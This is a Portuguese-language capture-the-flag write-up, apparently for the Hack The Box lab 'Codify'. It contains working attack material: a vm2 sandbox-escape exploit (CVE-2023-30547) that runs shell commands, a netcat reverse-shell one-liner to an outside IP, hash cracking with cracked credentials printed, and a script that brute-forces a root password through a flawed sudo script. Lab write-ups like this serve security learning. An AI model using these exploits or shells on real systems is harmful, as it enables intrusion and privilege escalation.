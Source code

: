 # ****Codify****

# * Scan de portas

```bash
rustscan -a 10.10.11.239
```
![image](https://github.com/lufffe/Writeups/assets/90646635/afcb64c2-4550-489e-a6dc-31ce326e66a4)

![image](https://github.com/lufffe/Writeups/assets/90646635/91f7acaf-292b-4f73-b9db-12180b4dc143)

```bash
nmap -A -p 22,80,3000,8000 10.10.11.239
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0ab41429-850a-47ad-82ba-92002ea52d3f)

# * Scan de Arquivos e Diretórios

```bash
gobuster dir -u http://codify.htb/ -w directory-list-2.3-small.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/2f5f0dac-e3e3-4502-bbd4-71b768d4d064)



## Achei a informação que tinha a biblioteca Vm2 e resolvi procurar falhas
![image](https://github.com/lufffe/Writeups/assets/90646635/ed3ccbfb-1e2f-4f98-8574-0d7be4c78bdc)

https://vk9-sec.com/cve-2023-30547exploitation-node-js-vm2-module-code-execution-rce/

<aside>
💡 http://codify.htb/editor
</aside>

![image](https://github.com/lufffe/Writeups/assets/90646635/f1b32fd3-c167-4f86-bf9d-9ab8d90c0765)

## Script usado para pegar o RCE

```jsx
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```

<aside>
💡 REVERSE SHELL

</aside>

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.202 4455 >/tmp/f
```

## Full TTy

python3 -c 'import pty;pty.spawn("/bin/bash")’

![image](https://github.com/lufffe/Writeups/assets/90646635/467c4303-8eb4-44de-ae39-9bfed11426ef)

## Encontrado um arquivo db com uma credencial de usuário

svc@codify:/var/www/contact$

```bash
cat tickets.db
```

joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
![image](https://github.com/lufffe/Writeups/assets/90646635/754ddf1a-9fad-4b9f-a9df-c1cc67e4056c)

## Descobrindo a senha

```bash
john --wordlist=rockyou.txt hash.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4c324249-7f04-4213-b243-88af541b2a34)

<aside>
💡 spongebob1
</aside>

# Logando pelo ssh e pegando a flag User

```bash
ssh joshua@10.10.11.239
```

# Buscando como escalar previlégios

```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6d6e6fb3-c061-4a41-878f-2180aa15b047)

![image](https://github.com/lufffe/Writeups/assets/90646635/c905d176-4603-4aa0-b0fe-42db288d1b93)

## Nesse trecho do codigo ele faz comparação da senha digitada com a senha do root
![image](https://github.com/lufffe/Writeups/assets/90646635/0206232a-3b2d-4d4e-81a9-5122c217c861)

### Código executado para achar a senha

```python
import string
import subprocess

def check_password(p):
command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
return "Password confirmed!" in result.stdout
charset = string.ascii_letters + string.digits
password = ""
is_password_found = False
while not is_password_found:
for char in charset:
if check_password(password + char):
password += char
print(password)
break
else:
is_password_found = True
```

## Executando o script

```bash
python3 [script.py](http://script.py/)
```
![image](https://github.com/lufffe/Writeups/assets/90646635/fdf8a888-0b62-461f-8cc7-4b299f66557c)

> kljh12k3jhaskjh12kjh3

```python
sudo /opt/scripts/mysql-backup.sh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5dd242e5-a340-4d03-a693-be58960b17f6)

# * Logando com o usuario root e pegando a flag
![image](https://github.com/lufffe/Writeups/assets/90646635/fdd5e527-db51-4501-9a68-1f25aaf49662)
